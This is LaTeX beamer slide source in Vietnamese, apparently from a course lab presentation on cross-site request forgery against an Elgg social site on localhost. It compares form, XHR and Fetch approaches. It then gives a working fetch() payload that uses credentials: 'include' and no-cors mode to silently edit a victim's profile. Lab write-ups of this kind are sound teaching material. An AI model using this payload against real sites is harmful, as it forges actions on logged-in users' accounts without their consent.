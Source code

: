 \documentclass[11pt,aspectratio=169]{beamer}
\newcommand{\yes}{\textcolor{success}{\ding{52}}}
\newcommand{\no}{\textcolor{danger}{\ding{56}}}
\begin{document}
\section{Kỹ thuật tấn công Fetch API}

\begin{frame}{Yêu cầu cải tiến: từ XHR/Form sang Fetch API}
  \begin{center}\footnotesize
  \begin{tabular}{lccc}
    \toprule
    \textbf{Tiêu chí} & \textbf{Form submit} & \textbf{XHR} & \textbf{Fetch API}\\
    \midrule
    Tàng hình (không chuyển trang) & \no & \yes & \yes\\
    Cú pháp hiện đại (async) & \no & \no & \yes\\
    Đề bài & \no{} cấm & \no{} cấm & \yes{} bắt buộc\\
    \bottomrule
  \end{tabular}
  \end{center}
  \medskip
  \begin{alertblock}{Hai cờ then chốt}
    \footnotesize
    \texttt{credentials: 'include'} → ép trình duyệt đính kèm cookie phiên cross-origin.\\
    \texttt{mode: 'no-cors'} + urlencoded/FormData → Simple Request, \alert{không} Preflight OPTIONS.
  \end{alertblock}
\end{frame}

\begin{frame}[fragile]{Phân tích gói tin \& mã khai thác}
  \scriptsize Endpoint (lab thật): \texttt{POST http://elgg.csrf.localhost:8080/action/profile/edit}
  \begin{lstlisting}[language=JS]
const payload = new URLSearchParams();
payload.append('name', 'Alice');
payload.append('description', 'CSRF attack by 23001939');
payload.append('accesslevel[description]', '2');   // 2 = Public
payload.append('guid', '56');                       // Alice's GUID
fetch('http://elgg.csrf.localhost:8080/action/profile/edit', {
  method: 'POST',
  mode: 'no-cors',          // Simple Request -> no Preflight
  credentials: 'include',   // REQUIRED: attach session cookie
  body: payload             // URLSearchParams tu sinh Content-Type
});
  \end{lstlisting}
  \footnotesize Biến thể \texttt{FormData}: không đặt \texttt{Content-Type} thủ công (trình duyệt tự sinh boundary).
\end{frame}
\end{document}
